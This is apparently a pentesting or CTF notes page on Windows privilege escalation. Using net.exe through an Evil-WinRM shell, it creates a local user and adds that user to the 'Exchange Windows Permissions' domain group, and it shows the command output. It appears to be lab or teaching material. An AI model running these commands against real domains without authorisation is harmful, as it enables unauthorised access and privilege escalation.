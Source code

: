 ```yaml
---
description: >-
  Create a windows user
title: Windows User Creation/Group Addition             # Add title here
date: 2023-02-03 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Windows - User Creation/Group Addition]                     # Change Templates to Writeup
tags: [user creation, group addition, windows privesc]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

## User create
If we are able to create a user it is as simple as using the net.exe windows utility:
```powershell
net user shuciran shucir4n /add
```
## Add user to a group
If there is a group in the domain with some privileges, we can add a user to such group (if we have such permissions):
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" shuciran /add
The command completed successfully.
```
If all goes as planned we'll get this output:
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user shuciran
User name                    shuciran
...
Local Group Memberships
Global Group memberships     *Exchange Windows Perm*Domain Users
```
Examples:
[[Forest#^80fd2e]]
